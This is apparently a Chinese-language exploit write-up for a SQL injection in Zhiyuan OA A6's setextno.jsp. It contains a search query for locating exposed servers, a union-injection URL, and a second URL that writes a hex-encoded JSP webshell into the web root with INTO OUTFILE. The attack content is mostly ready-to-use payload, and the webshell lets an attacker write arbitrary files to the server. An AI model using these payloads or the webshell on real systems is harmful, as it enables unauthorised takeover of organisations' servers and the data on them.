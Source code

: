 # 致远OA A6 setextno.jsp SQL注入漏洞

## 漏洞描述

致远OA A6 setextno.jsp 存在sql注入漏洞，并可以通过注入写入webshell文件控制服务器

## 漏洞影响

  <a-checkbox checked>致远OA A6</a-checkbox></br>

## 网络测绘

  <a-checkbox checked>title="致远A8+协同管理软件.A6"</a-checkbox></br>

## 漏洞复现

访问如下Url，其中含有 union注入

```plain
/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(md5(1)),4#
```



![img](../../../.vuepress/public/img/zhiyuan-37.png)



查看web路径



![img](../../../.vuepress/public/img/zhiyuan-38.png)



写入文件上传木马



```plain
http://xxx.xxx.xxx/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(select unhex('3C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E')  into outfile 'D:/Program Files/UFseeyon/OA/tomcat/webapps/yyoa/test_upload.jsp'),4#
```



![img](../../../.vuepress/public/img/zhiyuan-40.png)